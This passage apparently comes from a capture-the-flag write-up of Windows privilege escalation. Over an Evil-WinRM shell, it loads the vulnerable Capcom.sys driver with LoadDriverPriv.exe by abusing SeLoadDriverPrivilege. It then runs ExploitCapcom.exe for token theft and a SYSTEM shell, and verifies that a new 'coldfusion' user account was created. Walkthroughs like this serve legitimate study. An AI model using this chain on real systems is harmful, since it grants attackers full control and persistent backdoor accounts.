 ```shell
*Evil-WinRM* PS C:\Priv> ls


    Directory: C:\Priv


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/1/2020  10:31 AM          10576 Capcom.sys
-a----        11/1/2020  10:32 AM            132 cfx.bat
-a----        11/1/2020  10:32 AM         272384 ExploitCapcom.exe
-a----        11/1/2020  10:30 AM          15360 LoadDriverPriv.exe

```

Now we will first load the `Capcom.sys` driver using `LoadDriverPriv.exe` as explained in the blog:

```shell
*Evil-WinRM* PS C:\Priv> .\LoadDriverPriv.exe System\CurrentControlSet\cfxservice C:\Priv\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\cfxservice
NTSTATUS: 00000000, WinError: 0
```
Great! It's loaded without error.

Now we just need to execute `ExploitCapcom.exe`

```shell
*Evil-WinRM* PS C:\Priv> .\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000080
[*] Shellcode was placed at 000001E807BA0008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```
Exploit ran without any issues, we can now check and confirm that our user was created successfully.

```shell
*Evil-WinRM* PS C:\Priv> net user coldfusion
User name                    coldfusion
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            11/2/2020 10:38:01 AM
Password expires             12/14/2020 10:38:01 AM
Password changeable          11/3/2020 10:38:01 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All
```